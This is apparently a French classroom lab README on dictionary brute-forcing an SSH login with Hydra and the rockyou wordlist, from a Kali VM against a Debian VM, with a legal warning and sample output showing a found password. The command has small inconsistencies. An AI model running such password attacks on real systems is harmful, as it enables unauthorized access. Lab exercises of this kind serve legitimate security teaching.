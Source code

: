 # Brute force avec Hydra

🚩 Attention il est interdit d'accéder à des systèmes sans autorisation🏴‍☠️

Support : 

* VM Kalilinux avec utilisation de **Hydra**
* VM Debian 12

### Mise en situation :
>  Votre société Ciel_Pentester vient de réaliser un audit sur la société XX afin d’identifier la surface d’attaque.
>
> Après une cartographie complète, vous avez découvert une machine debian.
>
> Nous allons utiliser Hydra. Hydra est un outil de test de pénétration utilisé pour effectuer des attaques par force brute sur divers services, y compris SSH.

### Objectif :

✨ Vous devez arriver à vous connecter en SSH à la machine Debian à partir de Kalilinux. Vous devez découvrir le mot de passe de la session user.

-----
Une **attaque par brute force** teste un grand nombre de combinaisons pour trouver le bon mot de passe.
Ici nous allons utiliser une variante de l'attaque brute force, **attaque par dictionnaire**


## Prérequis 1 :

Nous allons utiliser un dictionnaire

* rockyou



-----

## Méthode

Lancer Hydra sous Kalilinux

    hydra -l idpatron -p /usr/share/wordlists/rockyou.txt -u -e s ssh://192.168.56.XX

Réponse :
>
> hydra ....
>
>...
>
>[22][ssh] host: 192.168.56.XX  login: ippatron  password: mdpdepatron
>


> [!NOTE]
> Si le mot de passe n'est pas découvert vous pouver utiliser d'autres dictionnaires, allez voir Liste_dictionnaire.md
> https://github.com/profelecmed/profelecmed/blob/main/Cybers%C3%A9curit%C3%A9/VM_kali/brute%20force%20avec%20john%20the%20ripper/Liste_dictionnaire.md

